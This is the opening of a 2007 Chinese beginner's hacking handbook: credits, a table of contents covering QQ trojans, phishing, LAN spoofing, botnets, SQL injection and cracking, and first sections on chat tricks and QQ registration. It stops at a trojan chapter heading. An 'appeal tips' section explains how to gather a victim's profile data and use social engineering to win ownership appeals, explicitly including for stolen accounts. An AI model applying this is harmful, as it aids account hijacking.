# 黑客攻防基础篇

# 菜鸟们不得不看的一本学习手册

想知道黑客是如何盗取别人的QQ吗？  
如何在局域网中入侵别人的电脑？  
如何配置木马并且控制别人的电脑？  
要怎样掌握基础的脚本注入攻击方法？  
对于初学者来说，软件破解要如何学习？  
我们的电脑经常会中病毒和木马，该如何清除呢？  
让我们来为你答疑解惑！带领你从菜鸟进化成大虾！

www.hackerxfiles.net  www.hackerxfiles.net


- QQ攻防跟我来
- 局域网攻防全攻略
- 让菜鸟都能玩转木马
- 网站注入攻击一点通
- 黑客破解基础知识入门
- 跟我学查杀清理木马

## 《黑客攻防基础篇》

- 出品人：孙胜利
- 主编：杨冬柱
- 作者：飘雪star／黑侠／阿布／Alpass／Basenet
- 编辑部：sag1／呆呆虫／虫虫／bink／石头／黄色潜水艇／笨牛牛
- 特约编辑：ww0830／zj1244／阿布／hackest／姜超／孟方明
- 光盘部：丛林
- 设计：谭海梅
- 排版：Bifrost
- 发行部主任：赵琦
- E-Mail：hackerxfiles@263.net
- 邮购查询电话：(010)88560080
- 发行联系电话：(010)88561472
- 联系人：赵琦
- 邮编：100037
- 本手册随2007年《黑客X档案》合订本下卷赠送

## 目录

## 第一章 QQ攻防跟我来

- **1.1 玩转QQ技巧** …… 6
  - 1.1.1 聊天文字随心所欲 …… 6
  - 1.1.2 申请9位QQ …… 9
  - 1.1.3 无敌QQ号码申诉技巧 …… 9
- **1.2 疯狂QQ木马** …… 13
  - 1.2.1 QQ木马的简单使用 …… 13
  - 1.2.2 螳螂捕蝉，木马在后 …… 15
  - 1.2.3 梧桐QQ欺骗登录器 …… 15
- **1.3 轻松QQ钓鱼** …… 19
  - 1.3.1 留言页面也“钓鱼” …… 19
  - 1.3.2 网络钓鱼，QQ号大丰收 …… 23
  - 1.3.3 钓鱼手段大揭密 …… 27
- **1.4 局域网里玩转QQ** …… 28
  - 1.4.1 木马的好帮手——QQ第六感 …… 28
  - 1.4.2 QQ木马种植跟我来 …… 30
- **1.5 QQ编程入门** …… 34
  - 1.5.1 QQ信息查询工具 …… 34
  - 1.5.2 批处理制作强制聊天工具 …… 36
  - 1.5.3 一键登录QQ …… 39

## 第二章 局域网攻防全攻略

- **2.1 零口令入侵** …… 41
  - 2.1.1 IPC$空连接入侵 …… 42
  - 2.1.2 TFTP上传 …… 42
  - 2.1.3 远程溢出 …… 44
- **2.2 Cain的使用和网络嗅探** …… 45
  - 2.2.1 嗅探局域网密码 …… 45
  - 2.2.2 局域网DNS欺骗挂马 …… 50
- **2.3 Zxarps的欺骗和嗅探** …… 52
  - 2.3.1 HTTP和FTP嗅探 …… 54
  - 2.3.2 替换文件挂马法 …… 56
  - 2.3.3 代码插入挂马法 …… 57
  - 2.3.4 DNS欺骗挂马法 …… 58
  - 2.3.5 限制网速 …… 58

## 第三章 菜鸟都能玩转木马

- 3.1 远程控制篇 …… 60
  - 3.1.1 生成服务端 …… 62
  - 3.1.2 木马的使用 …… 65
- 3.2 盗取密码篇 …… 70
  - 3.2.1 普通邮件收信 …… 71
  - 3.2.2 ASP空间收信 …… 73
- 3.3 网页木马篇 …… 75
  - 3.3.1 网马生成 …… 75
  - 3.3.2 网马利用 …… 77
- 3.4 DDOS攻击篇 …… 78
  - 3.4.1 生成服务端 …… 78
  - 3.4.2 更新IP地址 …… 80
  - 3.4.3 僵尸木马的使用 …… 81
- 3.5 木马总结篇 …… 84

## 第四章 网站注入攻击一点通

- 4.1 常规网站入侵方法简介 …… 85
  - 4.1.1 菜鸟的权限大餐 …… 85
  - 4.1.2 致命的暴库攻击 …… 86
  - 4.1.3 灵活的注入攻击 …… 91
  - 4.1.4 机智的旁注攻击 …… 95
- 4.2 另类网站入侵方法 …… 97
  - 4.2.1 Google黑客技术 …… 98
  - 4.2.2 IIS写权限来入侵网站 …… 99
  - 4.2.3 远程文件包含漏洞 …… 100

## 第五章 黑客破解基础知识入门

- **5.1** 什么是“暴力破解” …… 103
- **5.2** 暴力破解实例分析 …… 103
  - **5.2.1** 收集软件的基本信息 …… 103
  - **5.2.2** 学习破解的理论知识 …… 104
  - **5.2.3** 操刀破解 …… 107
- **5.3** 软件的注册验证流程 …… 116
- **5.4** 软件的限制方式 …… 116
  - **5.4.1** NAG窗口 …… 116
  - **5.4.2** 功能限制 …… 117
  - **5.4.3** 使用次数限制 …… 117
  - **5.4.4** 使用时间限制 …… 117

## 第六章 跟我学查杀病毒和木马

- **6.1** 病毒木马查杀基础篇 …… 118
  - **6.1.1** 网络通信的窗口——端口 …… 118
  - **6.1.2** 程序运行的基础——进程 …… 118
  - **6.1.3** 病毒木马发展趋势初探 …… 119
- **6.2** 查杀木马病毒一条龙 …… 120
  - **6.2.1** 杀毒软件引发的话题 …… 120
  - **6.2.2** 如何结束进程 …… 121
  - **6.2.3** 删除木马病毒文件 …… 124
  - **6.2.4** 系统恢复 …… 127
  - **6.2.5** Rootkit清除 …… 127

## 第一章 QQ攻防跟我来

### 1.1 玩转QQ技巧

#### 1.1.1 聊天文字随心所欲

竖着的文字随处可见，但横躺着的文字大家在聊天的时候见过吗？实现的方法十分简单，不需要任何辅助工具，保证一教就会，菜菜朋友们要注意了！在聊天窗口中打开字体设置，在选择文字的时候选择字体前带有“@”符号的字体，这样输入文字就会变为横躺着的了，如图1.1。



大家在聊天的时候是否有好友给你发过来隐形字体吗？看起来好像是在刷屏一样，实际上这是因为字体的颜色和背景色都是白色的，所以就看不到文字了。经过仔细观察我们就会发现当按“Ctrl+A”把字“全选”的时候，那些隐身的文字就会现身了。想知道这种字体是怎么玩的吗？大家来看图1.2，这是字体颜色的设置，我们只需要把字体颜色换成右下角的那个白色，字体颜色和背景颜色就会重合了。输入的文字在聊天记录中的“平板模式”下也是隐藏的，而在“传统模式”下则会显示。这样我们在聊天过程中对于交谈的敏感内容和信息就可以使用这个方法偷偷地做一下隐藏，在不刻意寻找的情况下没人会发现那些隐形文字的。

还有一些朋友在聊天的时候经常收到的不是文字，而是一个个带有文字的小图片，这样的文字比平日里那些乏味固定的文字可要……






图1.4

漂亮多了。这种文字就是QQ的七彩文字，简单地说也就是使用七彩的图片代替文字来发给对方。我们可以使用“QQ七彩文字”这款程序来添加QQ文字表情，当然还可以从网上下载更多的QQ文字表情，如图1.3。这款软件操作起来十分简单，点击要选择的文字表情，然后按照提示步骤操作就可以将“七彩文字”添加到QQ表情里了。接下来进入QQ聊天窗口，选择“使用快捷键”，如图1.4。这样我们以后


图1.5



图1.6

再打出文字来就会出现文字对应的文字图片了，如图1.5。怎么样？比原来的好看多了吧！

最近网友们都在追求什么火星文，为了追赶流行，我们也来体验一下火星文吧！这里要隆重为大家推荐“orz6火星文智能输入法”，使用这个软件可以轻松地驾驭火星文。我们需要用到软件的“实时自动转换”功能，如图1.6。

使用此功能就可以实现普通输入法打出火星字，只要我们启用“输入法实时自动转换”功能，软件就可以使用系统钩子自动寻找输入法并完成转换，这样此后无论聊天还是打字都会直接显示出转换完成的火星字。“转换的内容”最好只选择“中文（必选）”，否则当登录游戏或其他软件时，无法正确地输入密码。至于“转换难易度”，就要看你的火星文的掌握水平了，本人还是推荐“难”，因为这实在是太考验眼力了，如图1.7！到群里神侃，和朋友聊天，让他们羡慕我们的文字去吧！快来随心所欲地享受各种文字带给我们聊天的乐趣。


图1.7

#### 1.1.2 申请9位QQ

现在我们申请QQ的时候必须要填写密码保护，如图1.8。这样申请得到的QQ都会带有DNA密码保护，虽然比以前安全了，但是更改密码时却需要回答问题，显得非常繁琐。那九位无保的QQ号码要怎么申请呢？下面就跟我来一起去申请原始的九位无保的QQ号码，而且还是正规途径，官方申请的哟！

首先登录http://signup.qq.com，这就是申请的地址，不过是英文界面的，有可能是一个供外国友人注册的地方，如图1.9。简单翻译如下：Your Language（你的语言）；Your Location（你的地址）；Choose a Password for QQ ID（为QQ号码选择一个密码）；Your Basic Information（你的信息）：Nickname（昵称）、Age（年龄）、Gender（性别）。最后输入验证码，然后点击NEXT就可以申请成功了，如图1.10。

#### 1.1.3 无敌QQ号码申诉技巧

关于QQ号码申诉的文章，相信大家都看过不少了，那么今天，我就把自己私藏的几个申诉技巧写出来分享给大家，这可是在别处看不到的哦^-^！申诉，无疑就是搜集各种证据来证明QQ号码是自己的，证据充分的话就可以申诉成功。而证据中分量最重的无疑就是登录地址、QQ号码的申请时间、QQ号码的申请方式（一般为网页申请）……既然知道了这些，我们就可以对症下药了。无论该号是自己的或是盗来的，都有相当大的几率来申诉成功。下面就来利用有限的资源搜索无限的信息吧！



1. 登录QQ空间，在“个人档”中找到“基本资料”，如图1.11，这里一般会包含以下信息：原始昵称、省市地址、生日等信息。省市地址一般为经常登录的地址和申请号码的地址。  
2. 登录QQ空间，打开“日志”左边的“心路历程”，如图1.12，这里一般储存着大致从申请号码到目前的个性签名记录，翻到最后一页还有可能会看到最初的个性签名以及设置时间，从这里一般能够推断出号码申请的时间，这可是很重要的信息哟。  
3. 登录QQ社区，在“个人信息”中可以看到论坛生日，从这里可以更进一步。  
4. 登录QQ空间，在留言以及日志评论中可以推断出几个好友的号码。  
5. 在Google或百度中搜索此QQ号码来查找有用的信息，对于这个可就要很好地利用社会工程学才能发挥其巨大的价值了。  
6. 在有QQ密码的前提下想要通过申诉的方法修改密保时，可以进入我的QQ（http://my.qq.com），通过查看“我的身份信息”来获得信息，如图1.14。  
7. 在有QQ密码的前提下，还可以登录QQ邮箱右上角的“自助服务”来进行“登录查询”，查看此QQ号码在最近7天内的登录IP及地址，如图1.15。



图1.9



图1.10



图1.12



图1.11



图1.13





### 1.2 疯狂QQ木马

#### 1.2.1 QQ木马的简单使用

